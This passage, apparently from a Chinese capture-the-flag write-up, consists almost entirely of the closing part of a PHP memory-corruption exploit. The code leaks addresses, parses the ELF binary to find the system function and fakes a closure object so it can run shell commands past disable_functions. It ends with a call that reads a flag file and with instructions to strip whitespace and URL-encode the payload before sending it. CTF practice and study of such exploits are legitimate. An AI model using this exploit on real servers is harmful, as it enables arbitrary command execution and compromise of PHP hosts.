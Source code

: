 ```php
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦
```

去空格，去换行，URL编码

```
```